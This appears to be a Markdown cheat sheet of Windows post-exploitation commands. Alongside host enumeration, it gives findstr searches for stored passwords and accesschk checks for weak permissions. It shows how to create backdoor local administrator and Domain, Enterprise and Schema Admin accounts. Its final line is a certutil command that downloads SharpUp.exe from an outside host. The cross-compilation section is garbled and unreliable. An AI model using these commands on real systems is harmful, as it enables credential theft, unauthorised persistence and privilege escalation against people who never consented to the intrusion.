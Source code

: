 ## users and groups
```
whoami /all
net users
net localgroup
net user <username>
net localgroup administrators
```
## network status
```
netstat -anoy
route print
arp -A
```
## firewall
```
netsh advfirewall firewall show rule name=all
netsh advfirewall firewall show rule name=inbound
netsh advfirewall firewall show rule name=outbounD
netsh firewall show state
netsh firewall show config
```
## scheduled tasks
```
schtasks /query /fo LIST /v > schtasks.txt
```
## find passwords
```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
dir /s pass == cred == vnc == .config
findstr /spin "password" .
```
## windows shares
```
NET SHARE
NET USE
--> CREATE A SHARE ON WINDOWS FROM THE COMMAND LINE:
NET SHARE <sharename>=<drive/folderpath> /remark: "This is my share."
--> MOUNT A WINDOWS SHARE FROM THE COMMAND LINE:
NET USE Z: [\\COMPUTER_NAME\SHARE_NAME](file://COMPUTER_NAME/SHARE_NAME) /PERSISTENT:YES
--> UNMOUNT SHARE:
NET USE Z: /DELETE
--> DELETE A SHARE ENTIRLE
NET SHARE /DELETE
```
## Find weak file permissions
```
accesschk.exe -uwqs Users c:*.*
```

A part of group "Authenticated Users" - you would be surprised if you have a real user.

```
accesschk.exe -uwqs "Authenticated Users" c:*.*
```
## Add Administrator Account
```
cmd.exe /c net user c1dn3y superPassword /add
cmd.exe /c net localgroup administrators c1dn3y /add
cmd.exe /c net localgroup "Remote Desktop Users" c1dn3y /add
```
## Add a Windows Domain Administrator
```
cmd.exe /c net user hacker superPassword /add
net localgroup Administrators hacker /ADD /DOMAIN
net localgroup "Remote Desktop Users" hacker /ADD /DOMAIN
net group "Domain Admins" hacker /ADD /DOMAIN
net group "Enterprise Admins" hacker /ADD /DOMAIN
net group "Schema Admins" hacker /ADD /DOMAIN
net group "Group Policy Creator Owners" hacker /ADD /DOMAIN
```
## Access Check enumeration
```
accesschk.exe /accepteula (always do this first!!!!!)
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
accesschk.exe -ucqv [service_name]
#Find ALL weak folder permissions, per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
accesschk.exe -uwqs Users c:*.*
accesschk.exe -uwqs "Authenticated Users" c:*.*
```
## Code Compilation
```
apt-get install mingw-w64

Cross-Compilation Reference:
Ci686-w64-mingw32-gcc hello.c -o hello32.exe
32-bitx86_64-w64-mingw32-gcc hello.c -o hello64.exe
64-bit # C++i686-w64-mingw32-g++ hello.cc -o hello32.exe
32-bitx86_64-w64-mingw32-g++ hello.cc -o hello64.exe # 64-bit
```

## hotfixes
```
wmic qfe list
```

## file transfer
```
certutil -urlcache -f -split http://10.10.14.63:4321/SharpUp.exe sharpup.exe
```
